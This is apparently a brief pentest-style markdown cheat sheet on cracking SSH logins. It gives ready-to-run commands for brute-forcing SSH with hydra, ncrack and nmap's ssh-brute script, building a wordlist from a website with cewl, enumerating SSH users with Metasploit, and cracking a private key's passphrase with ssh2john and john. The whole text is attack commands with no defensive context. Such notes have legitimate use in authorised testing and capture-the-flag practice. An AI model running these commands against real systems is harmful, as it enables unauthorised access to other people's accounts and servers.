 # Password cracking
### Cracking SSH Password

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ssh
```
```bash
ncrack -U <usernames list> -P <passwords list> ssh://10.10.10.10
```
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s <ip>
```

## Create Word list
### If HTTP/S and SSH are running
```bash
cewl http://<ip> > wordlist.txt
```

## Metasploit
```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

## Crack Private Key

### Get hash
```bash
ssh2john private_key.txt > hash.txt
```

### Crack hash
```bash
john --wordlist=wordlist.txt hash.txt
```
